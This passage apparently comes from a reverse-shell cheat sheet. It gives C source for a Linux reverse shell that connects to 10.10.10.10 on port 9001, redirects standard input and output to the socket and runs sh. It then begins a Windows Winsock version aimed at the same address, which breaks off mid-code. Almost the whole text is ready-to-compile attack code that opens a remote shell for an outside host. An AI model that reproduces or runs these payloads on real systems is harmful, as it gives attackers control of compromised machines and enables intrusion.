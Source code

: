 
## C 
Linux Version
```c
#include <stdio.h>
#include <sys/socket.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>
#include <netinet/in.h>
#include <arpa/inet.h>

int main(void){
    int port = 9001;
    struct sockaddr_in revsockaddr;

    int sockt = socket(AF_INET, SOCK_STREAM, 0);
    revsockaddr.sin_family = AF_INET;       
    revsockaddr.sin_port = htons(port);
    revsockaddr.sin_addr.s_addr = inet_addr("10.10.10.10");

    connect(sockt, (struct sockaddr *) &revsockaddr, 
    sizeof(revsockaddr));
    dup2(sockt, 0);
    dup2(sockt, 1);
    dup2(sockt, 2);

    char * const argv[] = {"sh", NULL};
    execve("sh", argv, NULL);

    return 0;       
}
```

Windows Version
```c
#include <winsock2.h>
#include <stdio.h>
#pragma comment(lib,"ws2_32")

WSADATA wsaData;
SOCKET Winsock;
struct sockaddr_in hax; 
char ip_addr[16] = "10.10.10.10"; 
char port[6] = "9001";            

STARTUPINFO ini_processo;

PROCESS_INFORMATION processo_info;

int main()
{
    WSAStartup(MAKEWORD(2, 2), &wsaData);
    Winsock = WSASocket(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, (unsigned int)NULL, (unsigned int)NULL);


    struct hostent *host; 
    host = gethostbyname(ip_addr);
    strcpy_s(ip_addr, inet_ntoa(*((struct in_addr *)host->h_addr)));

    hax.sin_family = AF_INET;
    hax.sin_port = htons(atoi(port));
    hax.sin_addr.s_addr = inet_addr(ip_addr);
```